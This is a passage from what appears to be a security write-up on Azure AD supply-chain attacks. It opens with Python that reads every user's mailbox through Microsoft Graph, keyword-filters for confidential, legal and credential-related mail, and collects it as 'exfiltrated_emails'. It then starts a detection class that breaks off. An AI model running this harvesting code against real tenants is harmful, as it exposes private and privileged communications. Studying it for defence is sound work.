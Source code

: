 ```python

        for user in users[:10]:  # Limit to first 10 users
            user_id = user['id']

            # Access user's mailbox
            messages_url = f"{self.graph_url}/users/{user_id}/messages?$top=50&$select=subject,from,receivedDateTime,bodyPreview"

            try:
                messages_response = requests.get(messages_url, headers=headers)
                if messages_response.status_code == 200:
                    messages = messages_response.json().get('value', [])

                    for message in messages:
                        # Look for sensitive content
                        if self.is_sensitive_email(message):
                            exfiltrated_emails.append({
                                'user': user['userPrincipalName'],
                                'subject': message.get('subject'),
                                'from': message.get('from', {}).get('emailAddress', {}).get('address'),
                                'received': message.get('receivedDateTime'),
                                'preview': message.get('bodyPreview')
                            })

            except Exception as e:
                print(f"Failed to access mailbox for {user['userPrincipalName']}: {e}")

        return exfiltrated_emails

    def is_sensitive_email(self, message):
        """Identify potentially sensitive emails"""
        sensitive_keywords = [
            'confidential', 'secret', 'password', 'credentials',
            'contract', 'financial', 'merger', 'acquisition',
            'legal', 'attorney', 'privileged'
        ]

        subject = message.get('subject', '').lower()
        preview = message.get('bodyPreview', '').lower()

        return any(keyword in subject or keyword in preview
                  for keyword in sensitive_keywords)
```

## Detection and Monitoring

### Advanced Threat Detection

```python
import json
from datetime import datetime, timedelta

class AzureADThreatDetection:
    def __init__(self, tenant_id, client_id, client_secret):
        self.tenant_id = tenant_id
        self.client_id = client_id
        self.client_secret = client_secret
        self.access_token = self.get_access_token()

    def analyze_sign_in_anomalies(self):
        """Analyze sign-in logs for supply chain attack indicators"""
        headers = {
```